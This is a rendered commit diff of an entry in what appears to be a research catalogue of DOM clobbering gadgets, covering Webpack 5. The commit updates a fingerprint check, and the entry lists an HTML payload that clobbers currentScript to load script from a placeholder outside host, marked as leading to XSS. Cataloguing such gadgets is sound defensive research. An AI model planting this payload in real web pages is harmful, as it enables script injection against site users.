

Before and after one commit to jackfromeast/dom-clobbering-collection, a Markdown page: domc-gadgets/webpack.md, the part around the change. Drawn GitHub-style.

````diff
--- a/domc-gadgets/webpack.md
+++ b/domc-gadgets/webpack.md
@@ -4,7 +4,7 @@
 
 + Library: Webpack
 + Version: 5
-+ Fingerprint: `__webpack_require__ && 'p' in __webpack_require__`
++ Fingerprint: `typeof __webpack_require__ !== 'undefined' && __webpack_require__.hasOwnProperty('p')`
 + Payload: ```<img name="currentScript" src="https://xxx.xxxx.xxx"></img>```
 + Impact: XSS
 + Foundby: TheHulk
````
